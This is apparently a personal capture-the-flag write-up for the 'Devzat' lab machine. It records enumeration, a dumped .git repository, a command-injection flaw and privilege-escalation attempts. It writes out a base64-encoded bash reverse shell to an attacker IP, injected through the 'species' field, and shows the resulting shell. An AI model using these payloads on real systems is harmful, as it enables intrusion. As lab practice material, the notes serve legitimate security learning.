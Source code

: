 Name: Devzat
IP: 10.10.11.118
OS: Linux

##**Enumeration::**##
nmap::
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Go
| ssh-hostkey:
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data.
SF-Port8000-TCP:V=7.91%I=7%D=1/30%Time=61F72B44%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

dirb::
/assets, /images, /javascript, /server-status

http:
UN: patrick@devzat.htb
`ssh -l [username] devzat.htb -p 8000 `
+ w/ patrick:: Nickname reserved for local use, please choose a different one.
+ `id/ :: bad5f40e4a8de24f154becbbe6939ebaca4166aff3dd5b12e477a40a10193092`
+ id/ <user> Get a unique ID for a user (hashed IP)

nikto::
+ Server may leak inodes via ETags, header found with file /, inode: 197f, size: 5c570e80059d3, mtime: gzip
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3092: /LICENSE.txt: License file found may indicate something
  + Creative Commons Attribution 3.0 Unported

ffuf::Nothing
gobuster:: gobuster vhost -u http://devzat.htb/ -w /DNS/shubs-domains.txst -q | grep 200 :: http://pets.devzat.htb
wfuzz:: 
`wfuzz -t 20 --hc 400,302 -H "HOST: FUZZ.devzat.htb" -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://devzat.htb`::
+ http://pets.devzat.htb 
`wfuzz --sc 400,301 -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://pets.devzat.htb/FUZZ`::
+ /css, /build, /.git see ![wfuzz_pets_](Screenshots/devzat_pets_fuzz.png)
  + [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/git)
    + view changes with git diff

##**git-dumper::**## see ![git-dumper](Screenshots/git-dumper.png)
`
mkdir -p /tmp/devzat && chmod 777 /tmp/devzat
./git_dumper.py http://pets.devzat.htb/.git /tmp/devzat/
`
 cat main.go::
cmd := exec.Command("sh", "-c", "characteristics/"+species)
    + revshell injection:
burpsuite:: http//pets.devzat.htb
+ nc shell doesnt work
`echo -n 'bash -i >& /dev/tcp/10.10.16.13/5555' |base64::YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMy81NTU1 ` 
+ burp request:: 
`broken shell:: TODO:: stablize` see ![broken_shell](Screenshots/devzat_base64_revshell.png)
+ still doesnt work::
  + species":"cat; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMy81NTU1ICY=|base64 -d|fg %1|/bin/bash

TODO:
listening on [any] 5555 ...
connect to [10.10.16.13] from (UNKNOWN) [10.10.11.118] 50316
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ exit
[enable_job_ctrl](https://stackoverflow.com/questions/690266/why-cant-i-use-job-control-in-a-bash-script)

##**Gain foothold::**##

FIX:: output bash shell 0>&1 See ![](Screenshots/devzat_shell_encode.png)

/home/catherine/user.txt permission denied


##**linpeas.sh::**##
+docker port 8086
-rwxr-sr-x 1 root crontab 43K Feb 13  2020 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 31K May 28  2020 /usr/bin/expiry
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 1 root shadow 83K May 28  2020 /usr/bin/chage

/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

/etc/ld.so.conf                                                                                                   
include /etc/ld.so.conf.d/*.conf
/etc/ld.so.conf.d
/etc/ld.so.conf.d/fakeroot-x86_64-linux-gnu.conf
/usr/lib/x86_64-linux-gnu/libfakeroot
/etc/ld.so.conf.d/libc.conf
/usr/local/lib
/etc/ld.so.conf.d/x86_64-linux-gnu.conf
/usr/local/lib/x86_64-linux-gnu
/lib/x86_64-linux-gnu
/usr/lib/x86_64-linux-gnu

systemd+     510  0.0  0.3  18408  7396 ?        Ss   Jan31   0:03 /lib/systemd/systemd-networkd
└─(Caps) 0x0000000000003c00=cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw

/usr/bin/docker                                                                                                   
/usr/bin/runc

PORTS::
53, 8086, 22, 8843, 5000

patrick@devzat:~$ curl -vvv 127.0.0.1:8086
*   Trying 127.0.0.1:8086...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8086 (#0)
* Mark bundle as not supporting multiuse
  < HTTP/1.1 404 Not Found
  < Content-Type: text/plain; charset=utf-8
  < X-Content-Type-Options: nosniff
  < X-Influxdb-Build: OSS
  < X-Influxdb-Version: 1.7.5
  < Date: Wed, 02 Feb 2022 19:57:43 GMT
  < Content-Length: 19

/usr/bin/gettext.sh                                                                                               
/usr/bin/dockerd-rootless.sh
/usr/bin/rescan-scsi-bus.sh
/usr/bin/dockerd-rootless-setuptool.sh



##**Attempts::**##
+ pwnkit - no
+ GTFObins - docker no, 
+ getcap -r / 2>/dev/null ??
+ serve influxdb:8086 with 
  + chisel: ./chisel server -p 8000 --reverse
  + chisel: ./chisel client 10.10.16.13:8000
    + should server 8086

https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933 - no python
https://github.com/twistlock/RunC-CVE-2019-5736 - No luck
https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/ maybe? 

Font Awesome Free 5.9.0 by @fontawesome - https://fontawesome.com
html5up.net 


TODO: chisel requires glibc-2.3.2 
+ unable to configure ^^ because of bad gcc && make

##**References::**##
[git-dumper](https://github.com/arthaud/git-dumper)
[exploit](https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb)
[chisel](https://github.com/jpillora/chisel)